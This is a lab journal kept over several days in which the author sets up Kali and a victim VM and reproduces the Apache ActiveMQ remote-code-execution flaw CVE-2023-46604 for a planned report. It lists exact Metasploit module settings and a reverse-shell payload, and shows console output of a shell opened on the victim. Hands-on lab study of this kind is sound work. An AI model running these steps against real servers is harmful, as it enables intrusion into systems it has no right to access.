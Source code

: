 # dec 1st, 2023

## Vulnerability selection
- https://www.cvedetails.com/cve/CVE-2023-46604/
- seems to be a good candidate, the exploit does not seem that hard to run
- How to know if it's a good candidate?
- making sure to have the subject locked in would be a good start
- suppose we have a budget of time/effort (which we have, its not measured). Let's say we start working and keep searching for something else to deliver instead. What would it be, should it be sexier? In which way? Something that I know of? Hmmm. Maybe that's fear about not being able to deliver on the project.
- For now I'll keep the current choice

## Install kali linux
- Live installation seems like the best option
- I'm proceeding with an USB live installation
- download with the torrent option (with Transmission) seemed like the best way to get there
- Aborted, too troublesome (supposed pendrive would not boot properly)

## Virtualbox image was the solution
- Vagrant created vm has a potentially diferent user and password
- Now the challenge is to make the exploit work
- Some steps I propose to attack the issue is to setup apache mq with some sort of demo application and then deploy the attack over the port and address in which the machine that is running the service is operating. There is a variable called RHOST and RPORT that probably should receive this information when it comes to metasploit-framework
- another important details is that the exploit I need is not available at the varsion of the metasploit-framework that ships with kali-linux, so installing from the github repository seems to be the quicker way to get the exploit. This can be done through some commands I could find reading the github page of the project.
- Possibly the final result would be:
	- VM running the apache ActiveMQ (victim machine)
	- machine running Kali or something lighter (attacker)
	- a demo program running inside the victim machine that allows for the exploit to have some traceable side effect of the hack
- For the start I'm considering doing everything inside the the kali machine.
	- setup apache with a really small application
	- run the exploit
	- break things down to some scripts
	- get the kali virtual box to work OR make everything over docker containers, but for now I don't think that it is productive to consider this, let's make things work at least once.

# dec 2nd, 2023

## Apache Active MQ setup
- Tried a first deploy, to find out that I selected the wrong version for the software
- now with the right version the challenge was to select a payload that could work
- managed to find this: payload/cmd/linux/http/x64/shell/reverse_tcp, which can be set with "set payload payload/cmd/linux/http/x64/shell/reverse_tcp"
- now the challenge seems to be around the ports used to listen to and to deliver the payload
- I managed to make the exploit work locally
- In order to do it, some steps are necessary:
	- launch activemq (run ./activemq console inside the bin folder (under the directory that contains the apache activemq installation))
	- launch metasploit
	- use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
	- show targets
	- set TARGET 1 // (1 should be Linux)
	- show options
	- set RHOSTS 127.0.0.1
	- set SRVPORT 8081
	- set payload payload/cmd/linux/http/x64/shell/reverse_tcp
	- exploit
	- This should output something like:
	```
	[*] Started reverse TCP handler on 10.0.2.15:4444 
	[*] 10.0.2.15:61616 - Running automatic check ("set AutoCheck false" to disable)
	[+] 10.0.2.15:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.17.5
	[*] 10.0.2.15:61616 - Using URL: http://10.0.2.15:8081/yj43yvtRDrzv
	[*] 10.0.2.15:61616 - Sent ClassPathXmlApplicationContext configuration file.
	[*] 10.0.2.15:61616 - Sent ClassPathXmlApplicationContext configuration file.
	[*] Sending stage (38 bytes) to 10.0.2.15
	[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.15:49942) at 2023-12-02 15:14:28 -0500
	[*] 10.0.2.15:61616 - Server stopped.
	```
	- And you should be able to get some output by running "ifconfig" for example, this shell is already working on the victim machine
- The challenge now seems to be around deploying the environment efficiently
- Maybe we could build two containers (using docker), one for the attacker and one for the victim
- we launch activemq in the victim and expose the ports
- I have some questions around the possibility of sending commands to the msf6 shell, maybe that is not possible the same way we send the comands to the default shell
- But first it seems more interesting just to try and make it work using a NAT between kali and a new vm that exposes the port (remember to create an exception to the ports (maybe more than one) used by activemq.)

# dec 3rd, 2023
- Tried to connect the vm managed with grant to the vm that runs kali
- tried the "internal network" mode first, found out that vagrant was having trouble setting the first nework adapter to this configuration (it seems like the first adapter [should be NAT no matter what](https://github.com/hashicorp/vagrant/issues/6268))
- Then I added some extra configuratin to the vagrant file
```
config.vm.network "private_network", ip: "192.168.56.4",
					virtualbox_intnet: "isolatednet1"
```
- In the vm that runs kali I added a new adapter of the type "Host-only Adapter" with the name "vboxnet0" from the dropdown
- this configuration happened to exist in the same way in the other vm (the victim)
- Then I tried to connect the two machines through this new network using netcat
- I could not reach the victim machine (the server in the occasion) using netcat
- I installed ufw and added a rule to allow connections aimed at port 4000:
	```sudo apt install ufw```
	```sudo systemctl start ufw```
	```sudo systemctl status ufw```
	```sudo ufw allow 4000```
- Now I was able to connect both machines using netcat
	nc -l -p 4000 // for the "server"
	nc 192.168.56.3 4000 // for the "client"
- And it works!
- Now I managed to make the exploit work from the attackers machine to the victim machine, it turns out that I was not setting the exploit correctly
- there is a command "info -d" that generates an html guide on the exploit
- this guid had some info around how to set the exploit to work properly
- now the steps should be:
    use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
    set TARGET 1
    show options
    set SRVHOST eth1
    set LHOST eth1
    show options
    set RHOSTS 192.168.56.4
    show options
    check
    set PAYLOAD payload/cmd/linux/http/x64/shell/reverse_tcp
    check
    exploit
- and they should work
- right now it seems a good moment to find out about what is actually happening here by analyzing the exchanges that happen between the two machines
- understanding a little bit off Ruby was crucial to get what was happening in order to craft the binary data intended to exploit the marshaller behavior
- now I think about replicating the attack over a more realistic target, like a container or a deployed broker instead of the debugging one we launch with "activemq console"
    - though this does not seem like something with more precedence than the report
    - consolidating the work so far would be a good approach
        - this could be achieve quite reliably by pushing the environment to the cloud
    - maybe setting up a kali vm with a graphic environment would be great, that way everything needed to run the experiments could be made available with a few text files in a Git repo
    - that would be useful
- I noticed that at first the broker sends some sort of 'announce' message with some info in WireFormat, we close the connection right after
- probably we should start working over the report, that could be written in LaTeX, though I don't quite have a good template for this kind of things YET
- user and password for Kali are 'vagrant' and 'vagrant' by the time of this writing (default at first startup)
- next tasks:
    - start report (preferably in latex)
    - push code to repo
    - learn how to instantiate vm with graphic environment and anchor it to the host display
    - instantiate attacker's vm through vagrant and include the file in the repository
    - reassess tasks
